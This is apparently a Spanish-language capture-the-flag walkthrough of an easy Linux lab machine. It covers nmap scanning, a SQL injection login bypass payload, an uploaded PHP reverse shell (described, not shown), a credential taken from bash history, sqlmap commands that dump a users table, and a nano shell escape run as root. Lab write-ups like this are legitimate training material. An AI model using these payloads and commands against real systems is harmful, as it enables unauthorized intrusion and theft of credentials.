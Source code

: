 #Linux #Easy 
### nmap
```python
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.42 seconds
```

### Ports: 80/htto - 8080/http

### Enumeracion del puerto 80
![[Pasted image 20240612143931.png]]

### Fuzzing con gobuster
![[Pasted image 20240612143936.png]]
vamos a analizar el subdominio /gallery

### login
![[Pasted image 20240612143939.png]]
###### vamos a intentar varias credenciales por defecto y tambien inyecciones sqli
payload inyeccion sqli
```python
admin'OR 1=1-- -
```

### tenemos acceso a la pag web
![[Pasted image 20240612143946.png]]
###### en el apartado de albums podemos ver una opcion para cargar archivos lo que podriamos utilizar para intentar cargar un archivo php que contenga una reverse shell
![[Pasted image 20240612143952.png]]
la rever shell ha funcionado tenemos conexion a la maquina

### movimiento lateral. 
![[Pasted image 20240612143957.png]]
###### navegando por la maquina hemos conseguido un archivo backups del usuario mike en el cual tenemos permisos de lectura sobre el archivo .bash_history y dentro podemos ver que el usuario mike en algun momento proporciono su clave de super usuario asi que vamos a capturarla para convertirnos en el usuario mike

### analizando la maquina podemos ver que tenemos una base de datos
![[Pasted image 20240612144007.png]]
usaremos sqlmap para enumerar esta base de datos

### sqlmap 

```python
sqlmap -r phpid.txt --dbs
```
necesitamos interceptar alguna peticion con el burpsuite para poder conseguir la phpsessionid

![[Pasted image 20240612144011.png]]
ya tenemos el nombre de la base de datos. ahora vamos a enumerarla

```python
sqlmap -r phpid.txt -D gallery_db --tables
```
hemos enumerado las tablas de la base de datos. la tabla de users parece interesanta asi que vamos a echar un vistazo 
![[Pasted image 20240612144018.png]]

ahora vamos a enumerar la tabla de usuarios 

```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users
```

![[Pasted image 20240612144022.png]]

ahora vamos a enumerar las columnas de password y username
```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users -C username,password --dump
```

![[Pasted image 20240612144027.png]]
tenemos credenciales del usuario admin

### Escalada de privilegios
![[Pasted image 20240612144032.png]]
el usuario mike tiene permisos root para el script rootkit.sh usaremos esto para escalar privilegios

### script: el archivo tiene 4 variables. pero lo mas importante es que nos permite usar nano como root. usaremos esto para escalar privilegios
![[Pasted image 20240612144038.png]]

usaremos la opcion numero 4 (read) esto nos permite editar el archivo 
![[Pasted image 20240612144045.png]]

usaremos este comando con nano para lograr la escalada 
```python
nano
- Ctrl^R 
- reset; sh 1>&0 2>&0
- Ctrl^X
```

![[Pasted image 20240612144057.png]]
### WE ARE ROOT
